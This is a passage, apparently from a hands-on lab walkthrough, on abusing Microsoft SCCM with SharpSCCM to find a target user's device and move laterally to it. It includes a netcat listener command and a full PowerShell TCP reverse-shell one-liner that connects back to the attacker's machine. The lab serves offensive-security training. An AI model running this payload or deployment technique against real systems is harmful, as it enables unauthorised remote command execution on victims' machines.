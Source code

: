 The execution window is set to five minutes by default to allow change propagation in large enterprise environments, after which `SharpSCCM` deletes the changes from SCCM. In massive environments, this may not be long enough. In our lab, it is likely overkill. You can configure the number of seconds `SharpSCCM` will wait before cleaning up using the `-w <int>` option to specify a wait time.

 2. Identify the device where APERTURE\CHELL is the primary user

1. In the open PowerShell window, run `C:\Tools\SharpSCCM.exe get primary-users -u CHELL`.
2. Observe the value of `ResourceName` for the device where the `UniqueUserName` is `APERTURE\CHELL`, indicating that `APERTURE\CHELL` is the primary user of the `CHELL-PC` device.

 3. Identify the primary user for the CHELL-PC device

1. In the open PowerShell window, run `C:\Tools\SharpSCCM.exe get primary-users -d CHELL-PC`.
2. Observe the value of `UniqueUserName` for the device where the `ResourceName` is `CHELL-PC`, indicating that `APERTURE\CHELL` is the primary user of the `CHELL-PC` device.

 4. Identify the device where APERTURE\CHELL was the last user to log on

1. In the open PowerShell window, run `C:\Tools\SharpSCCM.exe get devices -p LastLogonTimestamp -p LastLogonUserName -p NetbiosName -u CHELL`.
2. Observe the value of `NetbiosName` for the device where the `LastLogonUserName` is `APERTURE\CHELL`, indicating that `APERTURE\CHELL` was the last user to log on to the `CHELL-PC` device.

 5. Gain access to CHELL-PC as CHELL

We have a lot of options for this, but for example, we could:

- host a binary or script on a network share that is accessible from the target device, then deploy an application that is installed from the UNC path of our payload using SCCM;
- execute a PowerShell reverse shell payload;
- backdoor a script or policy our target device will execute (e.g., CMPivot); or
- coerce NTLM authentication from another system where the target user is currently logged in and relay to the target system.

We’re going to use the second option for simplicity’s sake. First, let’s set up a netcat listener to catch our reverse shell like it’s 1995:

1. In the student portal, select the `Desktop` tab.
2. In the list of available systems, select `SPHERE#` to gain access to the initial access host as `testsubject#` (where `#` is your student number).
3. Open a Bash command prompt (Ctrl + Alt + T).
4. In the open terminal window, run `nc -lvp 8443`.

Next, we’ll use `SharpSCCM` to deploy an application containing our reverse shell payload:

1. In the student portal, select the `Desktop` tab.
2. In the list of available systems, select `SENTRY#` to gain access to the SCCM client device as `TESTSUBJECT#` (where `#` is your student number).
3. Open notepad
4. Paste the following payload into notepad, then replace `X` with your team/range number and `#` with your student number (2 instances of each) to send the shell back to the IP address of your `SPHERE#` machine:

```
# Credit: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1

$cl = New-Object System.Net.Sockets.TCPClient('10.1.X.20#',8443);$st = $cl.GetStream();[byte[]]$by = 0..65535|%{0};while(($i = $st.Read($by, 0, $by.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($by,0, $i);$seb = (iex $data 2>&1 | Out-String );$seb2  = $seb + 'PS ' + (pwd).Path + '> ';$seby = ([text.encoding]::ASCII).GetBytes($seb2);$st.Write($seby,0,$seby.Length);$st.Flush()};$cl.Close();$sm=(New-Object Net.Sockets.TCPClient('10.1.X.20#',8443)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
